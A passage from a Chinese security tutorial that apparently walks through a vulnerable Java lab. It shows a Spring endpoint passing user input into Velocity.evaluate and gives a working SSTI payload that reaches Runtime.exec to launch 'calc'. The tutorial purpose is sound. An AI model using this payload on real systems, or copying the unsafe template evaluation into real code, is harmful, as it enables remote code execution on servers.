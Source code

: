 #### /ssti/velocity

```java
  @GetMapping("/velocity")
    public void velocity(String template) {
        Velocity.init();

        VelocityContext context = new VelocityContext();

        context.put("author", "Elliot A.");
        context.put("address", "217 E Broadway");
        context.put("phone", "555-1337");

        StringWriter swOut = new StringWriter();
        Velocity.evaluate(context, swOut, "test", template);
    }
}

```

[Apache Velocity](https://zhida.zhihu.com/search?content_id=247409254&content_type=Article&match_order=1&q=Apache+Velocity&zhida_source=entity)是一个基于模板的引擎，用于生成文本输出(例如：HTML、XML或任何其他形式的ASCII文本)，它的设计目标是提供一种简单且灵活的方式来将模板和[上下文数据](https://zhida.zhihu.com/search?content_id=247409254&content_type=Article&match_order=1&q=上下文数据&zhida_source=entity)结合在一起，因此被广泛应用于各种Java应用程序中包括Web应用

模版注入问题各个语言斗鱼，但这里只用到了velocity，除了velocity，thymeleaf等都是会有ssti问题



**Velocity.evaluate**

**方法介绍**

Velocity.evaluate是Velocity引擎中的一个方法，用于处理字符串模板的评估，Velocity是一个基于Java的模板引擎，广泛应用于WEB开发和其他需要动态内容生成的场合，Velocity.evaluate方法的主要作用是将给定的模板字符串与上下文对象结合并生成最终的输出结果，这个方法通常用于在运行时动态创建内容，比如：生成HTML页面的内容或电子邮件的文本，方法如下所示：

```text
public static void evaluate(Context context, Writer writer, String templateName, String template)
```

参数说明：

- Context context：提供模板所需的数据上下文，可以包含多个键值对
- Writer writer：输出流，用于写入生成的内容
- String templateName：模板的名称，通常用于调试信息中
- String template：要评估的模板字符串

我们构造如下payload

```
#set($e="e");$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc")
```

![image-20250527201721864](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202505272017990.png)



### SSRF
